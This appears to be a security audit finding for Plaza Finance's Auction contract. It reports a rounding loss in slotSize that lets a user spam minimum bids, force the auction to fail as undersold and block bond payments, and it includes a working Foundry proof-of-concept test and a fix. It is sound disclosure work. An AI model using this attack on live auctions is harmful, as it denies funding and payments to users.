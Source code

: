 Crazy Carmine Corgi

Medium

# Rounding loss in Auction#slotSize allows malicious user to force auction to be undersold

### Summary

When an auction reaches the max number of bids it begins rolling the lowest bids off the list. To prevent high price low value bids from spamming out legitimate bids it enforces that the bid is a even division of slotSize(). This protection is not complete due to precision loss in it calculation. If a malicious user spams max number of bids of size == slotSize(), they can force and underfunded auction to occur, DOS'ing users and preventing funding.

### Root Cause

[Auction.sol#L382-L384](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L382-L384) does not account for precision loss allowing it to be exploited

### Internal preconditions

None

### External preconditions

None

### Attack Path

1. Spam max bids at size == slotSize
2. Wait for auction to end
3. End auction in failure
4. Refund all bids

### Impact

Bond payments can be indefinitely DOS'd due to forcing auctions to fail

### POC

Tests for all vulnerabilities can be found [here](https://gist.github.com/IAm0x52/05589415ce45af83aa4f7a5f63afbf45).

Insert the following test into Pool.t.sol

    function testDOSAuction() public {
        //test setup
        Token rToken = Token(params.reserveToken);
        Token cToken = Token(params.couponToken);

        vm.prank(user);
        address auction = Utils.deploy(
        address(new Auction()),
        abi.encodeWithSelector(
            Auction.initialize.selector,
            address(cToken),
            address(rToken),
            5000e6 + 1,
            block.timestamp + 1 days,
            10, // max bids set to 10 for simplicity of the test
            address(this),
            90
        ));

        cToken.mint(user, 1e18);
        cToken.mint(user2, 1e18);

        vm.prank(user);
        cToken.approve(auction, type(uint256).max);

        vm.prank(user2);
        cToken.approve(auction, type(uint256).max);

        vm.prank(user);
        Auction(auction).bid(1e6, 5000e6);
        
        for(uint i=0; i<10; i++){
        vm.prank(user2);
        Auction(auction).bid(0.05e6, 500e6);
        }

        vm.warp(Auction(auction).endTime());

        Auction(auction).endAuction();

        // auction has received a total of 10000e6 worth of bids but still fails due to rounding error
        assert(Auction(auction).state() == Auction.State.FAILED_UNDERSOLD);
    }

    Output:
    [PASS] testDOSAuction()

In the above test the auction receives a total of 10000e6 worth of bids but still fails as UNDERSOLD due to the issue described above.

### Mitigation

slotSize() should be `totalBuyCouponAmount / maxBids + 1` rather than `totalBuyCouponAmount / maxBids`